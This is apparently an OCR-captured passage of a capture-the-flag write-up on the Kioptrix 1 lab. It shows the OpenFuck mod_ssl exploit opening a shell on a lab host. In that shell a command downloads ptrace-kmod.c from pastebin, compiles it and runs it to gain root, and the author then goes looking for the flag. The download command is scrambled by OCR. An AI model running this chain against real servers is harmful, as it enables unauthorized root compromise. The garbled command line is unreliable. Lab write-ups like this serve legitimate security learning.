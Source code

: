 
```bash

┌──(root㉿kali)-[~/ctf/kioptrix-1/OpenFuck]
└─# ./a.out 0x6b 192.168.1.104 443 -c 40

*******************************************************************
* OpenFuck v3.0.32-root priv8 by SPABAM based on openssl-too-open *
*******************************************************************
* by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *
* #hackarena  irc.brasnet.org                                     *
* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
*******************************************************************

Connection... 40 of 40
Establishing SSL connection
cipher: 0x4043808c   ciphers: 0x80f8050
Ready to send shellcode
Spawning shell...
bash: no job control in this shell
bash-2.05$ 
race-kmod.c; gcc -o p ptrace-kmod.c; rm ptrace-kmod.c; ./p; m/raw/C7v25Xr9 -O pt 
--11:06:22--  https://pastebin.com/raw/C7v25Xr9
           => `ptrace-kmod.c'
Connecting to pastebin.com:443... connected!
HTTP request sent, awaiting response... 200 OK
Length: unspecified [text/plain]

    0K ...                                                    @   3.84 MB/s

11:06:22 (3.84 MB/s) - `ptrace-kmod.c' saved [4026]

ptrace-kmod.c:183:1: warning: no newline at end of file
[+] Attached to 6249
[+] Waiting for signal
[+] Signal caught
[+] Shellcode placed at 0x4001189d
[+] Now wait for suid shell...
whoami
root
```

I directly got **root** access using this method! 

I look around and find the flag in the */var/mail* directory.

```bash

- ls
bin
boot
dev
etc
home
initrd
lib
lost+found
misc
mnt
opt
proc
root
sbin
tmp
```